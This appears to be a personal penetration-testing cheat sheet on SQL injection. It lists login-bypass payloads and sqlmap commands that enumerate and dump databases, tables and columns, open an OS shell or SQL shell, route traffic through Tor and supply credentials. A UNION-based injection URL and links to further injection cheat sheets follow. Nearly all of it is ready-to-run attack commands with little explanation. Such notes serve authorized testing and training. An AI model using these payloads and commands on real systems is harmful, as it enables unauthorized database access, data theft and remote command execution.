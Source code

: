#enumeration #web-enumeration 

Testing for Bypasses: 

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

# SQLMAP

## Enumerate databases
sqlmap --dbms=mysql -u "$URL" --dbs

## Enumerate tables
- sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables

## Dump table data
- sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump
## Dump Columns
- sqlmap --dbms=mysql -u https://megacorpone.com -D "DATABASE" -T "TABLE" -C "COLUMN" --dump
## List Columns
- sqlmap --dbms=mysql -u https://megacorpone.com -D "DATABASE" -T "TABLE" --columns
## Specify parameter to exploit
- sqlmap --dbms=mysql -u "http://www.megacorpone.com/param1=value1&param2=value2" --dbs -p param2

##  Specify parameter to exploit in 'nice' URIs
- sqlmap --dbms=mysql -u "http://www.megacorpone.com/param1/value1*/param2/value2" --dbs # exploits param1

## Get OS shell
- sqlmap --dbms=mysql -u "$URL" --os-shell

## Get SQL shell
- sqlmap --dbms=mysql -u "$URL" --sql-shell

## SQL query
- sqlmap --dbms=mysql -u https://megacorpone.com -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"

## Use Tor Socks5 proxy
- sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u https://megacorpone.com --dbs
## Using SQLMAP with basic authentication or NTLM
- sqlmap -u "http://megacorpone.com/" -s-data=param1=value1&param2=value2 -p param1 --auth-type=[basic/ntlm] --auth-cred=username:password
# SQLI

Testing for a row: 

- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8
# Resources: 
- http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html
- https://cheatography.com/dormidera/cheat-sheets/oracle-sql-injection/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
